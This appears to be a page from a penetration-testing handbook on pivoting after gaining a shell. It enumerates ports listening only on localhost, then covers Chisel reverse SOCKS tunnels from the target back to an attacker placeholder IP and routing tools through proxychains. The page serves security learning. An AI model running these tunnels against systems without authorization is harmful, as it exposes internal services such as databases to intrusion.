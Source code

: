 ```yaml
---
description: How to best communicate between you and everything on your target
---
```


# Networking

## Enumerating Network Services

Developers often only expose ports to the public when they need to, so unnecessary ports like MySQL are often only reachable from the inside. While for an attacker, that is a gold mine. So when you get a shell on a machine as a low-privileged user, you might want to try and access these internal services.&#x20;

First off, you can **view all the listening ports** with the following command:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netstat -punta | grep LISTEN
</strong>tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
<strong>$ ss -nltpu | grep LISTEN  # Alternative
</strong></code></pre>

In the above example, there are two ports that listen on `0.0.0.0`, meaning they allow connections from anywhere. But more interesting, there are two other ports that listen on `127.0.0.1`. This means they are only accessible from localhost, or the machine itself. It does not allow connections from the outside.&#x20;

So when you are on a machine with any ports open on the `127.0.0.1` address, you can now access them from the inside. We can run commands like `curl`, or `mysql` on the machine itself, but we would have to be lucky that those programs are installed, or that they can be downloaded. We also then work completely on the command line, and a graphical application like a browser would not work.&#x20;

## Tunneling

This is where tunneling comes in. It allows you to create a path for the traffic where it is initially sent to your attacking machine and then forwarded to the actual target. This allows you to use all of your own installed tools on that localhost port, in order to attack the target machine.&#x20;

### Chisel

{% embed url="https://github.com/jpillora/chisel" %}
A tool with a client and server to tunnel traffic to a target's localhost
{% endembed %}

Chisel is a useful tool that is very easy to set up. You simply need a **server** on your own machine, and a **client** on the target machine that connects to your server. Simply **copy** **a binary** from the [releases](https://github.com/jpillora/chisel/releases) to you and your target, and then the basic commands are as follows:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ chisel server -p 8080 --reverse  # Attacker: server
</strong>2023/01/01 00:00:00 server: Reverse tunneling enabled
2023/01/01 00:00:00 server: Fingerprint raoElJaMVZlkiW9tCVXfLxR8IpBoQayS7wqa2ntl8sk=
2023/01/01 00:00:00 server: Listening on http://0.0.0.0:8080

<strong>$ ./chisel client $YOUR_IP:8080 R:socks  # Target: client
</strong>2023/01/01 00:00:00 client: Connecting to ws://10.10.10.10:8080
2023/01/01 00:00:00 client: Connected
</code></pre>

{% hint style="info" %}
**Note**: This requires two extra terminal screens to run these two commands, which both need to keep running to keep your connection alive
{% endhint %}

After the client connects, you should see a message like the following:

```
2023/01/01 00:00:00 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

This means the client successfully connected, and a tunnel was made. It tells you now that on your own `127.0.0.1:1080`, there now exists a socks proxy that you can use with all your tools.&#x20;

### Proxychains

{% embed url="https://github.com/haad/proxychains" %}
A tool that forces any TCP connection made by any given application to follow through a proxy
{% endembed %}

Proxychains is a tool that allows you to proxy existing tools to your new socks proxy from above. It just requires a tiny bit of configuration to make sure it knows to use the socks proxy we created on port `1080`. This is done using the `/etc/proxychains.conf` file. It might already contain some settings, but just change the `[ProxyList]` at the end to add your socks5 proxy:

```toml
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080
```

With this set, you can now simply **prepend** `proxychains` to the command, and your localhost becomes the target localhost!

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ proxychains curl localhost:3000
</strong>[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:3000  ...  OK
&#x3C;!DOCTYPE html>
...

<strong>$ proxychains firefox --offline
</strong></code></pre>
